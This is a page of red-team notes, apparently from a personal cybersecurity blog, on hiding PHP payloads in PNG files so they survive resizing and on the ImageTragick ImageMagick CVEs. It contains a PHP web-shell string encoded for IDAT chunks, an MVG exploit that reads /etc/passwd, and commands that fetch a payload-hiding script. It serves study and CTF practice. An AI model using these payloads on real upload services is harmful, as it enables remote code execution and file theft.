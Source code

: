# Image Transformations

<div class="row row-cols-lg-2"><div>

Images may be processed by the server, such as being resized, compressed, etc. These operations will lead to pixels being deleted and the payload being lost. The [GD library](https://www.php.net/manual/en/book.image.php) is commonly used in PHP.

* [Astrolock](https://github.com/synacktiv/astrolock/) (Vulnerable APP)
* [Overview of the different techniques](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) (2022)
* [French article extending the original article](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/) (2014)
* [Original Article](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/) (2012)

The original author compiled the sequence `a39f67546f2c24152b116712546f112e29152b2167226b6f5f5310` that corresponds to `<?=$_GET[0]($_POST[1]);?>` after applying the  PNG Filters and a compression algorithm on the image.

➡️ Use [huntergregal IDAT generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator) <small>(0.2k ⭐)</small> or [pixload](https://github.com/sighook/pixload)<small>(1.2k ⭐)</small> for XSS. Use [Astrolock generators](https://github.com/synacktiv/astrolock/tree/main/payloads/generators) <small>(0.1k ⭐)</small> for PHP code injection in PNGs.

#### ImageMagick File Conversation — Imagetragick CVEs

[![imagick](../../../../../_badges/rootme/realist/imagick.svg)](https://www.root-me.org/en/Challenges/Realist/Imagick)

Back in 2016, [4 critical CVEs](https://imagetragick.com/) and [one in 2020](https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016.html) were discovered in ImageMagick allowing file reading/writing, SSRF, and RCE.

```perl
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
fill 'url(https://example.com/image.jpg"; [...]"'
pop graphic-context
```

<br>

#### PLTE Chunk

Not covered for now.
</div><div>

#### Imagick Image Resizing

Not tested. It erases tEXT chunks "comment", modify some known tEXT chunks, and keep the others as-if.

```py
import sys
import PIL         # pip install pillow
import pillow_heif # pip install pillow-heif

image = PIL.Image.open("input.jpg")
if 'properties' not in image.info:
	image.info['properties'] = {}
image.info['properties']['PoC'] = '<payload here>'
image.save("output.jpg", format="JPEG", **image.info)
```

<br>

#### GD Image Resizing — PHP

[![samcms](../../../../../_badges/rootme/realist/samcms.svg)](https://www.root-me.org/en/Challenges/Realist/SamCMS)

If the uploaded image was resized to a fixed size that is less than 61 pixels, there are reliable ways to inject PHP code that survives resizing. There are multiple PHP scripts for 40x40 and 55x55.

I wrote a Python script that requires the `pillow` library. It supports images up to 61x61 as per the article from 2014.

```ps
$ pip install pillow
$ wget "https://raw.githubusercontent.com/QuentinRa/blog.quentinra.dev/master/cybersecurity/red-team/s3.exploitation/vulns/web/files/gd_hide_php_in_png.py"
$ python3 gd_hide_php_in_png.py --size 55
OK
$ cat in.png  # the image to upload
$ cat out.png # the image after resizing
```
</div></div>